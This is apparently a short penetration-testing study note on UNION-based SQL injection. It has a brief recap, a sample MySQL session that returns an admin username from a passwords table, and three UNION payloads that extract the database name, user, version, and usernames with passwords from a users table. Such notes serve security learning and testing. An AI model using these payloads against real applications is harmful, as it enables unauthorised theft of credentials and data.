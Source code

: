 # UNION Based SQL Injection





## Recap

UNION clauses allow for an additional SQL statement. It's always worth testing for this type of injection. WE MUST FILL ADDITIONAL COLUMNS WITH JUNK DATA.

```shell-session
mysql> SELECT * from products where product_id UNION SELECT username, 2, 3, 4 from passwords-- '

+-----------+-----------+-----------+-----------+
| product_1 | product_2 | product_3 | product_4 |
+-----------+-----------+-----------+-----------+
|   admin   |    2      |    3      |    4      |
+-----------+-----------+-----------+-----------+
```



### Examples

```sql
%' UNION SELECT database(), user(), @@version, null, null -- //
```

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



```sql
' UNION SELECT null, null, database(), user(), @@version  -- //
```

```sql
' UNION SELECT null, username, password, description, null FROM users -- //
```

> \
>
